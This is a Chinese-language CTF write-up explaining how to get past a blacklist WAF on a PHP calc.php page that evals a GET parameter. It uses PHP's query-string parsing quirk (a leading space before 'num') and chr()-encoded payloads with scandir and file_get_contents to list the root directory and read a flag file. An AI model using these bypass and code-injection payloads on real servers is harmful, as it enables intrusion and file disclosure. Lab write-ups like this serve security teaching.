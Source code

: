 ```yaml
---

catalog: true
tags:
    web
    php
---
```

## 额在PHP里有许许多多的绕过检测的方法，还有数不胜数的执行函数，所以任重道远啊

### 原理1：利用PHP的字符串解析特性

#### 利用PHP的字符串解析特性Bypass

```php
PHP将查询字符串（在URL或正文中）转换为内部$_GET或关联数组$_POST。值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替。
例如：
/?foo=bar变成Array([foo]=> “bar”)。
/? foo=bar变成Array([foo]=> “bar”)。 //?号后有一个空格
/?+foo=bar变成Array([foo]=> “bar”)。 //?号后有一个+号
```

### 原理2：利用scandir()列出目录和文件,var_dump()用于输出

> scandir()函数返回指定目录中的文件和目录的数组。
scandir(/)相当于ls /
var_dump()相当于echo

### 原理3：利用file_get_contents()读取并输出文件内容

> 例如 file_get_contents(/flag.php)，读取/flag.php的代码

***

#### 做题步骤访问

> /calc.php，发现源码。大概意思是：GET传入一个num，并且对num的值进行黑名单过滤，最后eval()执行
需要绕过waf对num的检测即可

#### 用到原理1：PHP的字符串解析特性。

> ? num=phpinfo();可以显示结果由于php跳过空格解析。

#### 用到原理2：现在来读取有哪些目录了

> ? num=var_dump(scandir(chr(47)))相当于? num=system(ls /)。chr(47)=" / "。

#### 用到原理3：找到flag所在文件名，那就来读文件内容吧。

> ? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))==>>file_get_contents(/f1agg)相当于? num=system(cat /f1agg)

***

